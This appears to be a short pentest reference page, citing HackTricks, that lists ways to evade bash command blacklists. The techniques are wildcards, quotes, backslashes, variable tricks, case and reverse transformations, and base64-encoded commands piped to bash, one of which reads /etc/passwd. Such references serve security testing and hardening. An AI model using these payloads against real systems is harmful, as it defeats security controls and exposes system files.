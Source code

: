 Refer to : [bypass-bash-restrictions_HackTricks](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions)

## Blacklist command Bypass
- Question mark
```
/usr/bin/cur?
```

- Wildcard(*)

```
/usr/bin/c*rl 
```

- [chars] 

```
/usr/bin/cur[l]
```

- Quotes

```
'c'u'r'l
cu''r''''l      #'x2
```

- Backslashes

```
\c\u\r\l
```

- $@

```
cur$@l
```

- variables

```
c$(u)ur${u}l$u
```

- Transformations (case, reverse, base64)

```bash
$(tr "[A-Z]" "[a-z]"<<<"CuRl") # -> Upper case to lower case
$(a="CuRL";printf %s "${a,,}") # -> transformation (only bash)
$(rev<<<'lruc') 

bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==) #base64
echo xxx|base64 -d|bash -i
```
